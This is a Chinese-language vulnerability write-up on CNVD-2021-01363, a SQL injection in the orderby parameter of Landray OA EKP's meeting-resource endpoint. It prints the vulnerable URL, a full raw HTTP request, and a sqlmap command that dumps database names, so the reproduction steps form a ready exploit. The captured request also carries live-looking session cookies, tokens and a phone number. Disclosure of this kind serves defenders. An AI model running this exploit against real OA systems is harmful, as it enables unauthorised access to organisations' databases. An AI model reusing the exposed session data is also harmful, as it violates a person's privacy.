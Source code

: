 # 蓝凌OA EKP 后台SQL注入漏洞 CNVD-2021-01363
**一：关于文章**

文章来自 @Miaòa 师傅的投稿,目前CNVD已收录漏洞

编号为 CNVD-2021-01363,欢迎各位师傅前来投稿啦~

![](%E8%93%9D%E5%87%8COA%20EKP%20%E5%90%8E%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CNVD-2021-01363/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

**二：漏洞描述**

**深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。**

**三:  漏洞影响**

**测试时间 2021-3-24 前版本**

**四:  漏洞复现**

**存在SQL注入的 Url为**

    https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true

**其中存在SQL注入的参数为 ordeby ， 数据包如下**

    GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Connection: keep-alive
    sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251

**保存为文件，使用 Sqlmap 跑一下注入**

    sqlmap -r sql.txt -p orderby --dbs

![](%E8%93%9D%E5%87%8COA%20EKP%20%E5%90%8E%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CNVD-2021-01363/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

**经过测试，还存在其他地方的多个SQL注入，等收录了在公开出来啦~**